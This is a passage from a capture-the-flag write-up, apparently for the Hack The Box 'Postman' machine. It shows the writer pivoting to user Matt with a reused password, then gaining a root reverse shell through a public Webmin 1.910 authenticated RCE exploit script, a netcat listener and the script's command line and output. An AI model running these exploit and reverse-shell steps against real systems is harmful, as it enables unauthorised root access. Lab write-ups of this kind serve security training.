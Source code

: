 	- Connection closed immediately
4. Instead, simply `su` to `Matt` w/ `computer2008`

	```
	redis@Postman:/home/Matt$ su Matt
	Password: computer2008
	Matt@Postman:~$ 
	```

## Root - Enumeration

1. Found some information from `.bash_history`
	- Based on the history, user `Matt` is used to create user `redis` & some configurations in `root`.
2. Successfully login w/ `Matt:computer2008` on `TCP/10000 (MiniServ 1.910)`

## Root - Webmin/MiniServ 1.910 Authenticated RCE

1. How does [`Webmin 1.910 - Remote Code Execution Using Python Script`](https://github.com/roughiz/Webmin-1.910-Exploit-Script) work?
	1. There is a RCE vulnerability residing in `MiniServ`'s Package Updates module, 
	2. An authenticated remote attacker can exploit this if they are authorized to the Package Update module via the data parameter `update.cgi` to execute code w/ `root` privileges.
2. Try [`Webmin 1.910 - Remote Code Execution Using Python Script`](https://github.com/roughiz/Webmin-1.910-Exploit-Script)
	1. Start `netcat` listener

		```
		┌──(root💀kali)-[~/htb/postman]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		```

	2. Exploit!

		```
		┌──(webmin-1.9)(root💀kali)-[~/htb/postman/10.10.10.160/exploit/webmin-1.9]
		└─# python2 webmin_exploit.py -s true --rhost postman.htb --rport 10000 --lhost 10.10.14.14 --lport 4444 -u Matt -p computer2008 -t / 
		 
		********************Webmin 1.910 Exploit By roughiz********************
		
		********************Retrieve Cookies sid*******************************
		
		
		********** [+] [Exploit] The Cookie is 748f1ae3b99cbab5753e2387d9f596c7
		
		****************** Create payload and Exploit ******************
		
		┌──(root💀kali)-[~/htb/postman]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 10.10.10.160.
		Ncat: Connection from 10.10.10.160:53152.
		id;whoami
		uid=0(root) gid=0(root) groups=0(root)
		root
		```

